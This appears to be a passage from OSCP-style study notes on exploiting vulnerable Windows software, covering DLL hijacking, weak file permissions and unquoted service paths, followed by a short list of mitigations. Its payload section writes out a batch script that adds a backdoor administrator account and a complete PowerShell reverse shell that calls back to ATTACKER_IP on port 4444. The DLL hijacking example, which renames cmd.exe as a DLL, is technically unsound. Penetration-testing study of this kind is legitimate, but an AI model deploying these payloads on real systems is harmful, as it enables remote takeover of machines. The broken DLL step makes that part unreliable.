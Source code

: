 ## General Exploitation Techniques

### 1. DLL Hijacking

If the vulnerable application loads DLLs without specifying the full path:

```cmd
# Create a malicious DLL
copy C:\Windows\System32\cmd.exe malicious.dll

# Place in location where application will find it before the legitimate DLL
```

### 2. Insecure File Permissions

If the application's executable has weak permissions:

```cmd
# Check permissions
icacls "C:\Program Files\Vulnerable App\app.exe"

# Replace with malicious executable
copy C:\Windows\System32\cmd.exe "C:\Program Files\Vulnerable App\app.exe" /Y
```

### 3. Unquoted Service Paths

Combine with service exploitation if vulnerable software installed as a service.

## Creating Malicious Payloads

For many exploits, you'll need to create custom payloads:

```cmd
# Payload to add a new administrator
echo net user hacker Password123 /add > payload.bat
echo net localgroup administrators hacker /add >> payload.bat

# PowerShell reverse shell
echo powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" > reverse-shell.ps1
```

## Prevention and Mitigation

To protect against vulnerable software exploitation:

1. **Keep software updated** with the latest security patches
2. **Implement application whitelisting** using AppLocker or Software Restriction Policies
3. **Use principle of least privilege** for service accounts
4. **Regularly audit installed software** for known vulnerabilities
5. **Implement proper access controls** on application directories
6. **Use security tools** like WMIC and PowerShell to regularly audit installed software

## OSCP Notes

For the OSCP exam, focus on:
- Simple, straightforward exploits that don't require complex setup
- Software that typically runs with SYSTEM privileges
- Applications with known version-specific vulnerabilities
- Exploits that can be executed with PowerShell or simple binaries 